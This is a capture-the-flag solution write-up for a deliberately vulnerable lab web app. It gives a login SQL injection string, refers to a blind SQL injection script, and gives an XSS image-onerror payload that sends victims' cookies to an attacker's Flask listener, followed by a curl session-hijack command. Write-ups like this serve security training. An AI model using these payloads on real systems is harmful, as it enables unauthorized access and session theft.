 # Silk Road at Home Solution

The goal of this challenge is to exploit an insecure web application three different ways:

1. SQL injection
2. blind SQL injection
3. cross-site scripting

The first task is straightforward. The login screen is susceptible to an SQL injection attack:

    a' or 1=1 limit 6, 29; -- 
    (note ending space after --, and password must be not empty)

The above command could be simplified to "a' or 1=1; -- " but this will always log the user in to the first account in the database.  The admin user is further down to increase the difficulty of this challenge. By using the limit command, the participant should be able to work down the user table to find admin. Since it is only in row six, it should not take too long to find.

The second task is much more difficult. A blind SQL injection attack is used to recover a password from the database. The script blind.py is included and accomplishes this task. The password will be printed one character per line.

The final task is to determine who else is logged in. The question implies that another user is active. The active user can be discovered using cross-site scripting. There are two parts. First, the participant must run a service that listens for HTTP connections that will carry the session payload. This is done with app.py. Copy app.py to the Kali machine, then in the same directory run "flask run --host=0.0.0.0" (without quotes). This will launch a minimalist web service to listen for cross-site scripting data exfiltration.

Next, post javascript to the web app. This is done in the post listing page. The word "script" has been filtered out, so simple `<script>` tags will not work. There are many approaches, but mine has been to post the following string:

    <img src="none" onerror="this.src='http://192.168.1.101:5000/monster?c=' + document.cookie;" /> 

When the victim browses to the listing, his cookie will be sent to the attacker's service. With the cookie string, a simple curl command will reveal the logged in user's name in plain text html:

    curl -v --cookie "session=blahblahblahblahblah" http://192.168.1.100/ 

NOTE: The above XSS strategy works, but in order for the victim to connect to the running service, I have found that I must first browse to the XSS listing first. Once my Kali browser has contacted the flask service, the victim attack will succeed. I have not figured out why this is the case yet, and other approaches will likely not require this extra step.
